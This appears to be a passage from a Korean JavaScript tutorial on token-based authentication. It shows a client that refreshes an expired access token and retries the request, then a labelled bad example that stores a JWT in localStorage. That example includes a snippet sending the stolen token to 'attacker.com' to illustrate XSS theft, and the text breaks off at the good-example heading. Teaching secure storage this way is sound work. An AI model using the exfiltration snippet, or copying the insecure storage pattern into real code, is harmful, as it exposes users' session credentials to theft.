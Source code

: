 ```javascript
      headers: {
        ...options.headers,
        'Authorization': `Bearer ${this.accessToken}`
      }
    });

    // 401 에러 → Access Token 만료
    if (response.status === 401) {
      // Access Token 갱신 시도
      await this.refreshAccessToken();

      // 원래 요청 재시도
      response = await fetch(url, {
        ...options,
        headers: {
          ...options.headers,
          'Authorization': `Bearer ${this.accessToken}`
        }
      });
    }

    return response;
  }
}

// 사용 예시
const authClient = new AuthClient();

// 로그인
await authClient.login('alice', 'password');

// API 호출 (자동으로 토큰 갱신됨)
const data = await authClient.fetch('/api/profile').then(r => r.json());
```

### 좋은 예 vs 나쁜 예

#### ❌ 나쁜 예 3: JWT를 localStorage에 저장

```javascript
// XSS 공격에 취약!
localStorage.setItem('jwt', token);

// 악의적인 스크립트가 토큰을 탈취할 수 있음
const stolenToken = localStorage.getItem('jwt');
fetch('https://attacker.com/steal', {
  method: 'POST',
  body: stolenToken
});
```

#### ✅ 좋은 예 3: httpOnly 쿠키 사용
